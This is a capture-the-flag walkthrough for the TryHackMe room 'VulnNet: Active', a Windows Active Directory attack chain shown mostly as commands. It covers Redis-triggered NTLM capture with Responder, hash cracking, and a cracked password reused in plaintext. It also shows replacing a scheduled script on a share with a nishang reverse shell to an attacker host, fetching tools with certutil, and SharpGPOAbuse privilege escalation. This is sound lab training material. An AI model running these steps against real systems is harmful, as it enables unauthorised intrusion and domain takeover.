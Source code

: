 # VulnNet: Active

**Room Link:** [https://tryhackme.com/r/room/vulnnetactive](https://tryhackme.com/r/room/vulnnetactive)

## **Scans** <a href="#scans" id="scans"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

## **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

No results. Couldn't login anonymously.&#x20;

**Kali**

```
smbclient -L //$VICTIM/ 
```

## **TCP/6379 - Redis** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

Added active.thm

**Kali**

```
redis-cli -h active.thm
```

**Kali(redis-cli)**

```
config get *
```

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
responder -I ens5 -dvw  
```

**Kali(redis-cli)**

```
eval "dofile('//$KALI/share')" 0
```

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

**Kali**

```
smbclient -L //$VICTIM/ -U enterprise-security
Password: sand_0873959498
```

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

#### Download files <a href="#download-files-1" id="download-files-1"></a>

**Kali**

```
smbclient \\\\$VICTIM\\Enterprise-Share -U enterprise-security
Password: sand_0873959498
```

**Kali(smbclient)**

```
ls
mget *
```

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat PurgeIrrelevantData_1826.ps1
```

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Kali**

```
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells/
subl Invoke-PowerShellTcp.ps1
```

**Kali(subl)**

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 4444
```

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cp Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
```

**Upload payload**

**Kali(smbclient)**

```
put PurgeIrrelevantData_1826.ps1
```

After a few moments we get a connection

**Kali**

<pre><code><strong>rlwrap nc -lvnp 4444
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation&#x20;

### Download SharpHound PS1

This failed because when running the script it would just hang and I had to reset the server. So After I tried with the exe.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.ps1 .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.ps1 SharpHound.ps1
powershell -ep bypass
.\SharpHound.ps1 
```

### Download SharpHound EXE

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.exe SharpHound.exe
SharpHound.exe
```

### **Transfer results to Kali**

**Victim(Powershell)**

```
copy 20240405092615_BloodHound.zip C:\Enterprise-Share\
```

**Kali(smbclient)**

```
get 20240405092615_BloodHound.zip
```

### BloodHound  <a href="#bloodhound-installation" id="bloodhound-installation"></a>

**Kali #1**

```
neo4j console
```

**Kali #2**

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Find Shortest Paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our user enterprise-security has write access to the GPO called "SECURITY-POL-VN"

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SharpGPOAbuse

**Kali**

```
git clone https://github.com/byronkg/SharpGPOAbuse.git
cp SharpGPOAbuse/SharpGPOAbuse-master/SharpGPOAbuse.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpGPOAbuse.exe SharpGPOAbuse.exe
```



This task is running one command which is to add our user enterprise-security to the administrator group

**Victim(Powershell)**

```
 .\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

After the change is successful we just need to push the GPU for it to work.

**Victim(Powershell)**

```
 gpupdate /force
```

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
psexec.py enterprise-security:sand_0873959498@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

